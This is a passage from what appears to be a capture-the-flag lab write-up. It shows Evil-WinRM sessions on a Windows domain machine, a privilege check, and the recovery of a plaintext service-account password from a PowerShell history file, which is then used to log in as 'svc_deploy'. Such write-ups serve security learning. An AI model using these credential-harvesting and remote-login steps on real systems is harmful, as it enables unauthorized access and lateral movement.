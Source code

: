 ```
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/28/2023 4:18:04 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *Development
The command completed successfully.
```

No interesting privileges here.
```
*Evil-WinRM* PS C:\Users\legacyy> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### POWERSHELL HISTORY

Found a new user `svc_deploy`  and it's credential `E3R$Q62^12p7PLlC%KWaxuaV` 

```
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine> type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
we are now logged in as `svc_deploy`
```
$evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

